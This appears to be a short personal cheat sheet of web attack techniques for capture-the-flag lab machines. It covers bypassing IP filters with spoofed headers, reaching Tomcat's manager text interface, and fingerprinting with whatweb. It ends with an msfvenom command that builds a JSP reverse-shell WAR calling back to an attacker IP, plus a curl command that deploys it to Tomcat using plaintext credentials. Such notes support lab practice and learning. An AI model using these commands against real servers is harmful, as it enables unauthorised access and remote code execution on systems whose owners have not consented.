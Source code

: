 # Web
ALWAYS LOOK FOR AN `API`, after finding an api use `curl -vv` to look closely at the headers

Apache has a setting where it includes home directories in it’s file system, accessible through ~/\[Name of User\].

`http://<IP>/~files/pass.txt`

If apache tomcat creds are found but `/manager` access is disabled(only available for localhost on victim), you can try to look for cli access available at `/manager/text` 

If the webserver is filtering based on your ip, we can use the `X-Forwarded-For: <ip>` or `x-9ad42dea0356cb04: <ip>` headers with a custom ip.

To manually use the start button, use: [https://stackoverflow.com/questions/13831601/disabling-and-enabling-a-html-input-button](https://stackoverflow.com/questions/13831601/disabling-and-enabling-a-html-input-button) 

`whatweb` is able identify the exact version:

```text-plain
whatweb http://maintest.enterprize.thm --plugins typo3 --aggression 3
```

`generate a war shell and upload (upload files with curl):`

```text-plain
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.17.17.11 LPORT=1234 -f war -o revshell.war

curl -u 'webdev:Hgj3LA$02D$Fa@21' --upload-file rshell.war http://10.10.144.71:8080/manager/text/deploy?path=/revshell
```